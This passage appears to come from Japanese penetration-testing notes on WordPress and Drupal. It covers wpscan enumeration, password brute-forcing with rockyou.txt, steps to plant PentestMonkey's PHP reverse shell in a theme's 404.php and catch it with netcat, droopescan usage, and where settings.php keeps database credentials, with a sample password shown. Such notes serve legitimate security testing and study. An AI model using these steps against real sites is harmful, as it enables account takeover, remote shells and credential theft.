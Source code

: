 アグレッシブスキャン:
```
wpscan --url <url> -e u,vt,vp --plugins-detection aggressive
```
アグレッシブスキャン(api-tokenの使用):
```
wpscan --url <url> -e ap --plugins-detection aggressive --api-token [自分のapi-token]
```

#### リスト型攻撃/パスワード推測攻撃
```
wpscan --url http://test.com/ --passwords /usr/share/wordlist/rockyou.txt
```
上記のコマンドにより、有効なWordPressユーザーを自動的に検出して指定したパスワードリストを使用してブルートフォースする。  
wp-login.phpページと有効になっている場合XMLRPCインタフェースを介したブルートフォースをサポートしている。

```
wpscan --url http://test.com/ --usernames admin --passwords /usr/share/wordlist/rockyou.txt
```
上記のようにユーザー名を指定することも可能。

#### Panel RCE
```
ログイン後、
1.[Appearance]→[Theme Editor]→[404 Template(404.php)]を選択して編集
2.PentestMonkeyのphp-reverse-shellをコピーして上書き
3.netcatでリバースシェルを待ち受け
4.下記のようなアドレスにアクセス
  http://192.168.1.101/wordpress/wp-content/themes/twentyfifteen/404.php
```

### Drupal
#### チェック項目
```
# バージョン確認
/CHANGELOG.txt
```

#### droopescan
```
pip3 install droopescan
```
```
droopescan scan drupal -u http://10.10.10.1 -t 32
```
- scan...スキャンの指定
  - SilverStripe
  - Wordpress
  - Drupal
- -u...URLの指定
- -t...スレッド数の指定

```
MySQLに接続するための認証情報が記述されている
/var/www/html/sites/default/settings.php

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
```